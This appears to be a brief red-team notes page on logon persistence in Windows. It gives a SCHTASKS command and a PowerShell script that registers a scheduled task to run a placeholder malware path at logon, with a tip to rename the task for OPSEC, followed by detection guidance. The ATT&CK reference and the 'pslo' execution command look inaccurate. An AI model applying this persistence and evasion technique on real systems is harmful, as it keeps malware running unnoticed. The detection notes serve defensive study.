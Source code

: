 # [Login item](https://attack.mitre.org/techniques/T1547/015/)

## Exploit syntax:

* SCHTASKS /CREATE /SC ONLOGON /TN "MyTasks\Notepad task" /TR "Path to the executable you want to run" /ST 11:00

1. Create ps1 file and input the following:

    ```powershell   

    # Here outpath is the location that your persistent file is.
    $outpath = "<path to malware"
    $action = New-ScheduledTaskAction -Execute $outpath
    $time = New-TimeSpan -Minutes 1

    $trigger = New-ScheduledTaskTrigger -AtLogon -RandomDelay $time

    Register-ScheduledTask -Action $action -Trigger $trigger -Taskname "Logon Item Persistence" -Description "This is a POC for Login-Items persistence."
    
    ```
>*Note*: You should also change the name of the `-Taskname` and `-Description` fields for better OPSEC

2. Execute the following command:

    ```powershell

    pslo <name of the above codeblock>.ps1 

    ```


## Detection Technique
* Investigate file creation in the default windows task folder - C:\Windows\System32\Tasks folder.
* Associate logon events (4624) within same time frame as execution of suspicious applications.
* This would involve two seperate searches, One search to identify process creation (Sysmon event code 1) of the malware and then another search of windows event code 4624 around the same time stamp on the victim workstation.
